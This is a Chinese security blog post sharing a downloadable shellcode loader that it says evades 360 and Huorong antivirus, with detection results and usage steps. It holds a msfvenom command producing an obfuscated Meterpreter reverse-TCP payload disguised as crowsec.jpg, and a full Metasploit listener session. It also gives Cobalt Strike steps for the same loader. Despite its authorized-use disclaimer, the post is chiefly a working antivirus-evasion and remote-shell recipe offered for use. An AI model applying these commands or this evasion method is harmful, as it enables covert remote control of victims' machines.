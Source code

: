 更新时间：2022-01-19



# 【工具分享】免杀360&火绒的shellcode加载器

# 说明

本文的所有技术文章仅供参考，此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。本文所提供的工具仅用于学习，禁止用于其他，请在24小时内删除工具文件！！！
​

工具放出来很快就会失效！！！仅供参考！

# 1. 免杀效果


该`shellcode`加载器目前可以过`360&火绒`，`Windows Defender`没戏。。。
​

代码和思路暂不开源！

你可以在我的GitHub上下载该工具：

如果你访问GitHub困难，你可以在`乌鸦安全公众号`后台直接回复关键字：加载器 下载！



方法： 生成`msf`或`cs`的`shellcode`原生格式，命名为`crowsec.jpg`（这个是写死的），将其和`crowsec_shelllcodeBypass.exe`（这个名字可以修改的）放在一个目录下，直接双击即可！
## 1.1 当前



| **杀软\免杀效果** | **虚拟机环境：Windows 10** | **虚拟机环境：Windows 7** | **虚拟机环境：Windows server 2019** | **最新测试时间** |
| --- | --- | --- | --- | --- |
| 联网Windows Defender最新版(关闭自动发送可疑样本) | ❌ | 未测 | ❌ | 2022.01.19 |
| 联网360最新版（其实测试没有什么意义） | ✅ | ✅ | ✅ | 2022.01.19 |
| 联网火绒最新版 | 未测 | ✅ | ✅ | 2022.01.19 |



## 1.2 半年前


这个数据已没有意义。

| **~~杀软\免杀效果~~** | **~~虚拟机环境：Windows 10~~** | **~~虚拟机环境：Windows 7~~** | **~~虚拟机环境：Windows server 2019~~** | **~~最新测试时间~~** |
| --- | --- | --- | --- | --- |
| ~~联网Windows Defender最新版(关闭自动发送可疑样本)~~ | ~~✅~~ | ~~未测~~ | ~~✅~~ | ~~2021.06.21~~ |
| ~~联网360最新版（~~~~其实测试没有什么意义~~~~）~~ | ~~未测~~ | ~~未测~~ | ~~未测~~ | ~~2021.06.21~~ |
| ~~联网火绒最新版~~ | ~~未测~~ | ~~✅~~ | ~~✅~~ | ~~2021.06.21~~ |



## 2.3 说明


这个`shellcode`加载器工具是我在`2021-06-21`号做的，优化之后VT查杀为`0/68`，一个月之后我再去检查，甚至到现在去检查，当前的VT查杀依旧为`0/68`。
​

`2021-06-21`是能过`火绒`、`360`、`Windows Defender(关闭自动发送可疑样本)`
​

前几天在测试的时候，发现过不了`Windows Defender`，今天稍微优化了一下，发现还是过不了`Windows Defender`，主要原因是识别了`msf`的部分特征！！！
​

鉴于目前已经有了其他的免杀方案，所以在这里就把工具分享出来（🐶），至少还能过`360`和`火绒`。（放出来之后，基本上几小时就没用了）。
​



![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642601558210-77264d08-585e-4214-86bf-f2ac13d84d07.png)


查询时间：`2022.01.19`
​

![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642601641740-37271f4b-227f-42e2-aca9-8f728e283c54.png)


# 3. 使用方法
# 3.1. msf上线


在这里使用msfvenon生成shellcode，为了好点的效果，这里使用`shikata_ga_nai` 编码器器对`shellcode`进行混淆编码，编码之后的`shellcode`并不是所有杀软都识别不出来，详情可以看我以前的文章：
xxxx
```
 msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 7 -b '\x00'  lhost=10.211.55.2 lport=1234  -f raw -o crowsec.jpg
```


![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642602696391-0b17ed2f-a282-491a-a92a-1473b5213338.png)


使用msf进行监听：
​

![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642604110630-14245c70-16eb-4d0b-8cd1-d7528db5e163.png)
```python
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload  windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > set LPORT 1234
LPORT => 1234
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:1234
```
### 3.1.1 360
![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642604510319-4ab109f8-01d4-484b-92fe-89972e00357b.png)
### 3.1.2 Windows Defender


被杀
![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642606086645-b320419d-f848-4b95-b272-068940bc7fe2.png)


### 3.1.3 火绒
![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642606183320-773dde9e-d3a4-4bf4-bede-a3639eeb3aa5.png)




## 3.2 Cobalt Strike上线


在这里只说思路，能够过`火绒`和`360`，但是不能过`Windows Defender`，同样的问题：特征出现在`shellcode`上面。


![image.png](https://cdn.nlark.com/yuque/0/2021/png/8378754/1624333743849-3faa3f92-b9be-4d13-8639-4ef47d31d91e.png)


![image.png](https://cdn.nlark.com/yuque/0/2021/png/8378754/1624333663432-aeef544c-00f5-46d0-afa5-be8eac02cbaf.png)
将文件保存为`crowsec.jpg`（下图是一个示例，主要是太累了，不想换了。。。）
![image.png](https://cdn.nlark.com/yuque/0/2021/png/8378754/1624333734629-94ba4bc1-8893-4882-a850-8e546fb212c4.png)
现将生成的bin文件修改为png文件，然后双击上线操作


![image.png](https://cdn.nlark.com/yuque/0/2021/png/8378754/1624333800699-980bd71e-f2ff-4383-b14e-7453e21db605.png)


但是这里可以发现，当前的`payload`已经被标记特征，直接被杀，但是免杀`360`和`火绒`是不影响的。
![image.png](https://cdn.nlark.com/yuque/0/2021/png/8378754/1624333824066-d215bf3b-bff0-413e-9791-8ed69dcecafe.png)
​



